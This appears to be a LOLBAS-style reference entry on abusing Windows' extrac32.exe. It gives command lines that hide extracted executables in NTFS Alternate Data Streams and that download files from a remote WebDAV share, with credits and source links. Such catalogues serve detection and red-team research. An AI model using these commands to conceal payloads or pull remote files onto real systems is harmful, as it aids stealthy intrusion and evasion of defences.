 ## Extrac32.exe
* Functions: Add ADS, Download
```

extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.

extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.

extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
Copy the source file to the destination file and overwrite it.
```
   
* Resources:   
  * https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  * https://twitter.com/egre55/status/985994639202283520
   
* Full path:   
  * c:\windows\system32\extrac32.exe
  * c:\windows\sysWOW64\extrac32.exe
   
* Notes: Thanks to Oddvar Moe - @oddvarmoe, egre55 - @egre55  
   
